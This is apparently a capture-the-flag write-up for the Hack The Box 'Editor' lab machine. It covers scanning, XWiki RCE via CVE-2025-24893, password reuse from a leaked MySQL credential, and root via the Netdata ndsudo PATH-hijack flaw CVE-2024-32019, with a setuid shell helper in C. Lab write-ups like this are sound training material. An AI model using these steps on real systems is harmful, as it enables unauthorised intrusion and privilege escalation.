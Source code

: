 
**IP:** `10.10.11.80`  

---

##  OS / Technology
- Ubuntu  
- XWiki 15.10.8 (Debian package)  

---

##  Users / Passwords
- Neal Bagwell (?)  
- oliver : *discovered later via MySQL credentials*  

---

##  Services
- **80 (HTTP)** → Hostname: `http://editor.htb/` → source code only, FUZZ → nothing  
- **8080 (HTTP)** → XWiki page, version 15.10.8  
- **22 (SSH)** → running  

---

##  Nmap
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
```

---

##  Exploitation
**XWiki 15.10.8 → CVE-2025-24893 (RCE)**  
- Exploit: [gunzf0x/CVE-2025-24893](https://github.com/gunzf0x/CVE-2025-24893)  
- Gained shell as xwiki user.  

---

##  Privilege Escalation – Step 1
### Enumeration
- `ss -tupln` shows services:
  - MySQL on `127.0.0.1:3306`  
  - Netdata on `127.0.0.1:19999`  
  - Java Jetty on `8080`  
- Found config file with **MySQL credentials**:
  ```xml
  <property name="hibernate.connection.username">xwiki</property>
  <property name="hibernate.connection.password">theEd1t0rTeam99</property>
  ```
- Logged into MySQL with `xwiki:theEd1t0rTeam99`.  
- No useful hashes, but reused password worked for **SSH as oliver**.  

---

## Privilege Escalation – Step 2
- Now `oliver` user:  
  ```bash
  id
  uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)
  ```
- Belongs to **netdata group** → exploitable CVE.  

---

##  Exploit – CVE-2024-32019 (Netdata `ndsudo`)
1. Wrote and compiled privilege escalation helper:
   ```c
   #include <stdio.h>
   #include <stdlib.h>
   #include <unistd.h>

   int main() {
       setuid(0);
       setgid(0);
       execl("/bin/bash", "bash", "-p", (char *)NULL);
       perror("execl");
       return 1;
   }
   ```
   ```bash
   gcc -o /tmp/rootshell rootshell.c
   export PATH=/tmp:$PATH
   ```

2. Triggered Netdata `ndsudo` with arbitrary command:  
   ```bash
   /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo arcconf-pd-info
   ```

3. Escalated to **root**   
